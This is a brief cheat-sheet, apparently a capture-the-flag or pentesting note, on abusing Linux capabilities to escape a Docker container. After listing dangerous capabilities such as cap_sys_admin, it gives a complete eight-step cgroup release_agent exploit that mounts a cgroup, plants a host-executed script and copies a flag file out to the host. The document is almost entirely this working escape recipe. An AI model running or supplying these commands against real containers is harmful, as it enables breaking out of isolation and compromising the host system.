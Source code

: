 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

#### 3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "cat /home/user/flag.txt > $host_path/flag.txt" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
